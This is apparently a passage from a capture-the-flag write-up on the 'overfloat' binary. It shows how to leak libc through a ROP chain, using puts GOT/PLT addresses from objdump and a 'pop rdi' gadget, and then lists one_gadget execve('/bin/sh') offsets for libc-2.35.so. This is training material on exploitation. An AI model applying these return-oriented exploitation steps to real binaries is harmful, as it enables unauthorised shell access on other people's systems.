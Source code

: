 First we need to leak an address from libc so we can find the base. Once we've established the base, we can successfully call other instructions using an offset.

One method to leak libc with ROP is the usual: GOT > rdi > plt:

#### GOT entry address - `puts`
```
$ objdump -R overfloat | grep puts
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```

#### PLT address - `puts`
```
$ objdump -D overfloat | grep puts
0000000000400690 <puts@plt>:
  400690:       ff 25 8a 19 20 00       jmp    *0x20198a(%rip)        # 602020 <puts@GLIBC_2.2.5>
  400846:       e8 45 fe ff ff          call   400690 <puts@plt>
  400933:       e8 58 fd ff ff          call   400690 <puts@plt>
  4009e8:       e8 a3 fc ff ff          call   400690 <puts@plt>
  400a14:       e8 77 fc ff ff          call   400690 <puts@plt>
```

#### Gadget -  `pop rdi`
```
ROPgadget
 --binary overfloat | grep "pop rdi"
0x0000000000400a83 : pop rdi ; ret
```

With this we can now leak the address of puts, with puts. From that, we can calculate the base address of libc. With this info leak, we can now loop back to main and jump to the gadgets required.

So we have all that we need to leak libc:
```
# libc leak
putsPlt = 0x400690
putsGot = 0x602020
popRdi = 0x400a83
```

### One Gadget
```
$ one_gadget libc-2.35.so
0xebc81 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebc85 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebce2 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
  r13 == NULL || {"/bin/sh", r13, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

```